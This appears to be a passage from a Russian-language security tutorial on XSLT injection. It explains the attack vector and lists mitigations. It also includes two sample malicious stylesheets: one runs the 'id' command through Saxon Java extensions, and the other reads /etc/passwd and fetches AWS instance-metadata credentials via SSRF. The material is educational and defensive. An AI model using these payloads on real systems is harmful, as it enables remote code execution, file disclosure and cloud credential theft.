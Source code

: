 Основная опасность в **неявном выполнении кода**. Приложение думает, что просто "преобразует XML", но фактически выполняет произвольный код, указанный злоумышленником.

##### **Меры защиты против такого вектора**

1. **Игнорировать Processing Instructions** из пользовательского XML
2. **Использовать только предопределенные, доверенные XSLT-шаблоны**
3. **Запрещать загрузку внешних ресурсов** в XSLT-процессоре
4. **Валидировать**, что XSLT загружается только из разрешенных источников

**Суть:** Вредоносным является не содержимое XML-данных, а **метаданные**, которые заставляют приложение выполнить непроверенный код.

---

_Вредоносная XSLT (attack.xsl):_
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                              xmlns:java="http://saxon.sf.net/"
                              extension-element-prefixes="java">
  <xsl:template match="/">
    <output>
      <!-- Выполнение команды "id" в Unix-системе -->
      <xsl:value-of select="java:runtime.exec('id')"/>
    </output>
  </xsl:template>
</xsl:stylesheet>
```

Если процессор (например, старый Saxon) разрешает выполнение расширений Java, эта XSLT выполнит команду `id` и вернет результат.

**Пример 2: Чтение файла и SSRF**

_Вредоносная XSLT:_
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <stolen_data>
      <!-- Чтение локального файла /etc/passwd -->
      <file>
        <xsl:value-of select="document('/etc/passwd')"/>
      </file>
      <!-- Выполнение SSRF-запроса к метаданным AWS -->
      <ssrf>
        <xsl:copy-of select="document('http://169.254.169.254/latest/meta-data/iam/security-credentials/')"/>
      </ssrf>
    </stolen_data>
  </xsl:template>
</xsl:stylesheet>
```

---

### **5. Меры защиты (Best Practices)**
